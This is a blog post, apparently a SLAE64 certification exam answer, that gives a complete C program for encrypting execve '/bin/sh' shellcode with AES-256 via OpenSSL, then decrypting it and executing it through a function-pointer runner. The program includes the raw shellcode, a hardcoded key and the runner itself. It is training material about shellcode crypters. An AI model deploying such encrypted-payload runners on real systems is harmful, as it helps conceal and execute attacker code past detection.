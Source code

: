 title: AES-256 Encrypted Shellcode
date: 2018-05-19
published: true 
summary: My solution to SLAE64 Exam Question 7
tags: shellcode, exploit, assembly

#AES-256 Encrypted Shellcode

This is my solution to the seventh exam question of the SLAE64 certification. This exercise was to write a program that decrypts shellcode and executes it. Of course, you would also need to encrypt the shellcode somehow first. Any programming language was acceptable. 

Since I had already been writing mainly C shellcode runners for this class, and I really never have an excuse to program in C anymore, I chose to use AES encryption in a C program. As any security professional will tell you, it's best to use a trusted crypto (whoah - does crypto mean something other than bitcoin?!?) library rather than attempting to write your own. I used the openssl library for this exercise.

My full program is here:

    #include<stdio.h>
    #include<string.h>
    #include<stdlib.h>
    #include<openssl/aes.h>


    //encryption utility function declarations
    void print_data(const char* label, const void* data, int len);

    unsigned char execve_sc[] = \
    "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

    unsigned char encrypted_execve_sc[] = \
    "\x05\xE9\xE4\x47\x52\xFF\xA5\x90\x0A\xA1\x7A\xFA\x6B\x63\x69\x22\x8C\x64\xD0\xDC\x0E\x0A\xC3\xB0\x7B\x34\x9D\x97\x06\x02\x4A\x82\xF3\xF7\x08\x59\x61\xEB\x1C\x01\xB9\xCE\xDE\x9B\x7B\x0A\x04\xD2\xC0\xB9\x88\xB5\x45\x7F\x00\x00\x18\x04\x40\x00\x00\x00\x00\x00\xF8";

    int main(int argc, char *argv[])
    {
        const static unsigned char key[] = {0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32,0x23,0x32};
        unsigned char iv[AES_BLOCK_SIZE];
        //dumb logic - if any arg is passed, just try encoding and printing execve_sc 
        if(argc>1){
            unsigned char tmp_encrypted_execve_sc[sizeof(encrypted_execve_sc)]; 
            AES_KEY enc_key;
            AES_set_encrypt_key(key,sizeof(key)*8,&enc_key);
            memset(iv, 0x46, AES_BLOCK_SIZE);
            AES_cbc_encrypt(execve_sc,tmp_encrypted_execve_sc,sizeof(execve_sc),&enc_key,iv,AES_ENCRYPT);
            print_data("enc",tmp_encrypted_execve_sc,sizeof(tmp_encrypted_execve_sc));  
            return; 
        }
        //otherwise we just go ahead and decrypt

        unsigned char decrypted_execve_sc[sizeof(encrypted_execve_sc)]; 

        AES_KEY dec_key;
        AES_set_decrypt_key(key,sizeof(key)*8,&dec_key);
        memset(iv, 0x46, AES_BLOCK_SIZE);
        AES_cbc_encrypt(encrypted_execve_sc,decrypted_execve_sc,sizeof(encrypted_execve_sc),&dec_key,iv,AES_DECRYPT);
        print_data("dec",decrypted_execve_sc,sizeof(decrypted_execve_sc));  

        int (*ret)() = (int(*)())decrypted_execve_sc;

        ret();

    }

    //encryption utility function definitions
    void print_data(const char* label, const void* data, int len){
        printf("%s : ", label);
        const unsigned char * p = (const unsigned char*) data;
        int i;
        
        for(i=0;i<len;i++){
            printf("\\x%02X", *p++);
        }   
        
        printf("\n");
    }

As you can see - I was pretty sloppy and just threw in an option to encrypt the cleartext if you passed any commmand line argument. I used this originally to print out the encrypted shellcode for execution and just left it as evidence of the process:

![enc shellcode](/static/blog/2018/SLAE64/7/encrypt_shellcode.png)

Again, the example shellcode used for this problem was the `execve` program to spawn `/bin/sh`.

Other than that, I think the code and API's used are pretty self-explanatory by name. One interesting detail is that the decryption is actually done with the function `AES_cbc_encrypt()`, which makes sense as AES is a symmetric algorithm.

Running the program prints out the decrypted bytes and gives me a shell once again:

![enc shell](/static/blog/2018/SLAE64/7/encrypted_shell.png)

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/7>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification.* 

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*